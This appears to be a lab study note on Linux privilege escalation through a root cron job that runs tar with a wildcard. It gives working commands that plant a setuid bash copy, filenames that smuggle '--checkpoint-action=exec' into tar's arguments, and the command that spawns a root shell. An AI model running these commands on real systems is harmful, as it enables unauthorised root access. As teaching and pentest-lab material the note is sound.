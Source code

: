 !!!importanat 
    One of the most comon cron jobs Priv Esc technique is the file overwrites!

## Why Does This Work?
- **Cron jobs execute scripts as root**.
- **No absolute path in the cron job** allows execution of user-controlled scripts.
- **Writable scripts in `$PATH`** enable privilege escalation.



## Escalation via Cron Wildcards

```sh
* * * * * root /usr/local/bin/compress.sh

TCM@debian:~$ cat /usr/local/bin/compress.sh 
#!/bin/sh
cd /home/user
tar czf /tmp/backup.tar.gz * `<----- backup via a wild card `
TCM@debian:~$ 

```
We can do injection.

`echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/runme.sh`

 `touch /home/user/--checkpoint=1`
 `touch /home/user/--checkpoint-action=exec=sh\ runme.sh`


These two commands are used to exploit certain vulnerable versions of tar by tricking it into executing a malicious script. This technique is part of Linux Privilege Escalation via Arbitrary File Execution in tar.

## Command 1

* touch creates an empty file named --checkpoint=1.
* In vulnerable versions of tar, the --checkpoint option prints a message after processing every file.
* Here, --checkpoint=1 forces tar to print a message after processing one file.

## Command 2 

* touch creates another file named --checkpoint-action=exec=sh runme.sh.
* The --checkpoint-action flag in vulnerable tar versions allows executing commands when a checkpoint is hit.
* In this case, when tar processes the file, it will execute:

`sh runme.sh`

* This runs runme.sh as the user who executed tar.
  If tar is run as root, the script executes as root.

`/tmp/bash -p`
